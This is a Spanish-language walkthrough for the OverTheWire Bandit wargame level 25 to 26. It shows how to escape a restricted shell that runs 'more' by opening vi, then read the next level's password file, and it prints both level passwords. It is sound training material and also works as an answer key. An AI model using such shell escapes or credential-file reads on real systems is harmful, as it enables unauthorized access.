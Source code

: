 ## Objetivo

Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not **/bin/bash**, but something else. Find out what it is, how it works and how to break out of it.

## Datos de acceso al nivel

-   user -> **bandit25**
-   Password -> p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
-   host -> **bandit.labs.overthewire.org**

## Solución
```
bandit25@bandit:~$ ls
bandit26.sshkey
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost -p2220
Connection to localhost closed.
bandit25@bandit:~$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost -p2220
v

:e /etc/bandit_pass/bandit26

c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1
```
## Notas adicionales

#### Definiciones que entender

- **ssh -i bandit26.sshkey bandit26@localhost -p2220**: Al momento de teclear este comando tenemos que entrar pero con la pantalla reducida, en el cmd donde estemos trabajando nos dira que no se a cargado completamente las cosas por completo y ahi es donde oprimiremos la tecla v y luego teclearemos el siguiente comando para entrar directo a la carpeta bandit26 **:e /etc/bandit_pass/bandit26** para poder obtener la contraseña del bandit26 y listo.

- En caso contrario si tienes una ventana más grande que el texto que te muestra, en este caso “bandit26”, se ejecutará y cerrará, es decir, cerrara la sesión.

## Referencias
- https://medium.com/@coturnix97/overthewires-bandit-25-26-shell-355d78fd2f4d